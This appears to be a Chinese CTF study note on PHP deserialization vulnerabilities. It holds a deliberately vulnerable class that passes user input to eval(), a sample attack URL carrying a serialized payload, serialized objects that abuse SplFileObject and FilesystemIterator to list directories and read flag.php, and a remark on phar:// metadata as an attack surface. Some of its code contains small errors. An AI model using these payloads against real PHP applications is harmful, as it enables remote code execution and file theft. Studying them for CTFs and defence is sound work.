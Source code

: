 复制类到php文件，new一个对象，设置预先设定的属性，调用`serialize()`得到序列化字符串。

```php
$a = new Example();
$a->var = 'hello'; #public属性直接设置，private需要借助set
echo base64_encode(serialize($a));
```

当类中未定义的私有变量被访问时，会调用魔术函数`__get()`。（sample：ezsql-安恒月赛-2018-11）

`$a->notexist() #会调用__get()`

如果 `unserialize()` 在执行时定义了 `__destruct()` 或 `__wakeup()` 函数，则有可能导致代码执行。

```
<?php
class Example {
  var $var = "";
  function __destruct() {
    eval($this->$var);
  }
  function __get(){
    echo "";
  }
}
unserialize($_GET["saved_code"]);
?>
```

攻击 payload

```
http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}
```

#### [PHP标准库中直接目录迭代和文件处理的类](https://mochu.blog.csdn.net/article/details/115276176)：

| class              | introduction                                                 |
| ------------------ | ------------------------------------------------------------ |
| FilesystemIterator | The Filesystem iterator                                      |
| SplFileObject      | The SplFileObject class offers an object oriented interface for a file. |
| DirectoryIterator  | provides a simple interface for viewing the contents of filesystem directories |
| GlobIterator       | Iterates through a file system in a similar fashion to glob(). |

```php
O:1:"A":2:{S:5:"class";s:18:"FilesystemIterator";s:4:"para";s:13:"/var/www/html";}
O:1:"A":2:{S:5:"class";s:13:"SplFileObject";s:4:"para";s:21:"/var/www/html/flag.php";}
```

#### [利用phar拓展php反序列化漏洞攻击面](https://paper.seebug.org/680/,https://xz.aliyun.com/t/6699)

phar文件会以序列化的形式存储用户自定义的meta-data，php一大部分的[文件系统函数](http://php.net/manual/en/ref.filesystem.php)在通过`phar://`伪协议解析phar文件时，都会将meta-data进行反序列化，因此可以不依赖`unserialize()`直接进行反序列化操作。
